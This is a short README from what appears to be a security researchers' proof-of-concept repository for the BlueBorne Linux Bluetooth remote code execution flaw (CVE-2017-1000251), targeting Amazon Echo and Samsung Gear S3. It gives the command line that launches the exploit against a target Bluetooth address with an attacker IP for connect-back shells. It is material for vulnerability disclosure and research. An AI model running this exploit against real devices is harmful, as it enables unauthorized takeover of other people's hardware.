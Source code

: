 BlueBorne Linux RCE Exploits
=============================

This directory contains a PoC code for the Linux-RCE vulnerability (CVE-2017-1000251).
The exploits are specifically tailored for specific fw images of two devices: The Amazon Echo and Samsung Gear S3.

To run (either exploit script, found under the relavant device dir):

    sudo python2 exploit.py <src-hci> <target-bdaddr> <attacker-ip> (optional-connectback-port1=1234) (optional-connectback-port2=1235)

IP needs to be accessible from the victim (should be the IP of the machine that runs the exploit)


A blog post on these exploits can be found here:
https://www.armis.com/armis-demonstrates-bluetooth-worm-and-linux-exploit-at-black-hat/

A detailed whitepaper in the above link as well.